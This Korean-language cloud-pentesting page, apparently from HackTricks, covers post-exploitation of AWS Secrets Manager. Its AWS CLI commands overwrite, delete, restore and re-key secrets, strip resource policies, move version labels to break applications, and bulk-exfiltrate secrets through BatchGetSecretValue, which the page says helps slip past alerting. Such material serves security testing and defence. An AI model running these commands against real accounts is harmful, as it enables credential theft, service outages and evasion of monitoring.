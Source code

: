 # AWS - Secrets Manager Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## Secrets Manager

자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-secrets-manager-enum.md
{{#endref}}

### Secrets 읽기

**비밀 자체는 민감한 정보입니다.** 읽는 방법은 [privesc 페이지](../aws-privilege-escalation/aws-secrets-manager-privesc.md)를 확인하세요.

### DoS 비밀 값 변경

비밀 값의 값을 변경하면 **해당 값에 의존하는 모든 시스템을 DoS할 수 있습니다.**

> [!WARNING]
> 이전 값들도 저장되어 있으므로, 이전 값으로 되돌리는 것은 쉽습니다.
```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
--secret-id MyTestSecret \
--secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```
### DoS KMS key 변경

만약 attacker가 secretsmanager:UpdateSecret 권한을 가지고 있다면, secret이 attacker가 소유한 KMS key를 사용하도록 구성할 수 있습니다. 해당 KMS key는 처음에 누구나 접근·사용할 수 있도록 설정되어 있어 secret을 새 key로 업데이트하는 것이 가능합니다. 만약 key에 접근할 수 없다면 secret을 업데이트할 수 없습니다.

secret의 key를 변경한 후 attacker는 자신의 KMS key 설정을 수정해 오직 본인만 접근할 수 있도록 만듭니다. 이렇게 하면 이후 버전의 secret들은 새 KMS key로 암호화되며, 해당 key에 대한 접근 권한이 없으므로 secret을 조회할 수 없게 됩니다.

중요한 점은 현재 버전은 여전히 원래 KMS key로 암호화되어 있기 때문에, 이 접근 불가 상태는 secret 내용이 변경된 이후의 이후 버전에서만 발생한다는 것입니다.
```bash
aws secretsmanager update-secret \
--secret-id MyTestSecret \
--kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```
### DoS Secret 삭제

secret을 삭제하려면 최소 7일이 필요합니다.
```bash
aws secretsmanager delete-secret \
--secret-id MyTestSecret \
--recovery-window-in-days 7
```
## secretsmanager:RestoreSecret

비밀을 복원할 수 있습니다. 비밀의 최소 삭제 기간은 7일이고 최대는 30일이므로, 삭제가 예약된 비밀을 복원할 수 있습니다. secretsmanager:GetSecretValue 권한과 함께 사용하면 해당 내용물을 가져올 수 있습니다.

삭제 중인 비밀을 복구하려면 다음 명령을 사용할 수 있습니다:
```bash
aws secretsmanager restore-secret \
--secret-id <Secret_Name>
```
## secretsmanager:DeleteResourcePolicy

이 작업은 secret에 접근할 수 있는 사람을 제어하는 resource policy를 삭제할 수 있게 합니다. resource policy가 특정 사용자 집합에 대한 접근을 허용하도록 구성되어 있었다면 이는 DoS로 이어질 수 있습니다.

resource policy를 삭제하려면:
```bash
aws secretsmanager delete-resource-policy \
--secret-id <Secret_Name>
```
## secretsmanager:UpdateSecretVersionStage

비밀의 상태는 비밀의 버전을 관리하는 데 사용됩니다. AWSCURRENT은 애플리케이션이 사용하는 활성 버전을 표시하고, AWSPREVIOUS는 필요할 경우 롤백할 수 있도록 이전 버전을 보관하며, AWSPENDING은 회전 과정에서 새 버전을 현재로 만들기 전에 준비하고 검증하는 데 사용됩니다.

애플리케이션은 항상 AWSCURRENT가 붙은 버전을 읽습니다. 누군가 그 레이블을 잘못된 버전으로 옮기면 애플리케이션은 유효하지 않은 자격 증명을 사용하게 되어 실패할 수 있습니다.

AWSPREVIOUS는 자동으로 사용되지 않습니다. 그러나 AWSCURRENT가 제거되거나 잘못 재할당되면 모든 것이 여전히 이전 버전으로 실행되고 있는 것처럼 보일 수 있습니다.
```bash
aws secretsmanager update-secret-version-stage \
--secret-id <your-secret-name-or-arn> \
--version-stage AWSCURRENT \
--move-to-version-id <target-version-id> \
--remove-from-version-id <previous-version-id>
```
{{#include ../../../banners/hacktricks-training.md}}





### Mass Secret Exfiltration via BatchGetSecretValue (up to 20 per call)

Secrets Manager BatchGetSecretValue API를 악용하여 단일 요청으로 최대 20개의 secret을 검색할 수 있습니다. 이는 각 secret마다 GetSecretValue를 반복 호출하는 것과 비교해 API 호출량을 크게 줄일 수 있습니다. 필터(tags/name)를 사용하는 경우 ListSecrets 권한도 필요합니다. CloudTrail은 여전히 배치에서 검색된 각 secret마다 GetSecretValue 이벤트를 기록합니다.

필요 권한
- secretsmanager:BatchGetSecretValue
- secretsmanager:GetSecretValue (각 대상 secret에 대해)
- secretsmanager:ListSecrets (--filters 사용 시)
- kms:Decrypt (secrets에 사용된 CMKs에 대해, aws/secretsmanager를 사용하지 않는 경우)

> [!WARNING]
> `secretsmanager:BatchGetSecretValue` 권한만으로는 secret을 검색하기에 충분하지 않습니다. 검색하려는 각 secret에 대해 `secretsmanager:GetSecretValue` 권한도 필요합니다.

Exfiltrate by explicit list
```bash
aws secretsmanager batch-get-secret-value \
--secret-id-list <secret1> <secret2> <secret3> \
--query 'SecretValues[].{Name:Name,Version:VersionId,Val:SecretString}'
```
Exfiltrate — 필터로 (tag key/value 또는 name prefix)
```bash
# By tag key
aws secretsmanager batch-get-secret-value \
--filters Key=tag-key,Values=env \
--max-results 20 \
--query 'SecretValues[].{Name:Name,Val:SecretString}'

# By tag value
aws secretsmanager batch-get-secret-value \
--filters Key=tag-value,Values=prod \
--max-results 20

# By name prefix
aws secretsmanager batch-get-secret-value \
--filters Key=name,Values=MyApp
```
부분 실패 처리
```bash
# Inspect the Errors list for AccessDenied/NotFound and retry/adjust filters
aws secretsmanager batch-get-secret-value --secret-id-list <id1> <id2> <id3>
```
영향
- 더 적은 API 호출로 많은 secrets를 빠르게 “smash-and-grab”하여, GetSecretValue의 급증에 맞춰 조정된 alerting을 우회할 수 있습니다.
- CloudTrail 로그에는 배치로 검색된 각 secret마다 여전히 하나의 GetSecretValue 이벤트가 포함됩니다.

